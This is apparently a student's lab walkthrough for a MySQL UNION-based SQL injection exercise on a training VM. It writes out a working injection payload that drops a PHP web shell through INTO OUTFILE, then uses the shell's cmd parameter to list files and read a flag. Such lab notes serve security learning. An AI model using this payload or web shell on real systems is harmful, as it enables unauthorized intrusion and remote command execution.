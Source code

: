 # Walk: MySql - SQL injections attacks - Code execution - VM-2

## Fecha: 25/01/2025
## Host: Ubuntu
## IP: 192.168.136.19

---

## Objetivo
Connect to the MySQL VM 2 and repeat the steps illustrated in this section to manually exploit the **UNION-based SQLi. **
Once you have obtained a webshell, gather the flag that is located in the same **tmp** folder.
---
## Procedimiento y comandos
1. Paso 1: Ejecutamos el ataque en **http://192.168.136.19/search.php**:
	- **' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //**
2. Paso 2: Obtenemos el flag llamando por parametro nuestro webshell:
	- Verificamos si el flag esta: **http://192.168.136.19/tmp/webshell.php?cmd=ls**
	- Obtenemos el flag: **http://192.168.136.19/tmp/webshell.php?cmd=cat%20flag.txt**
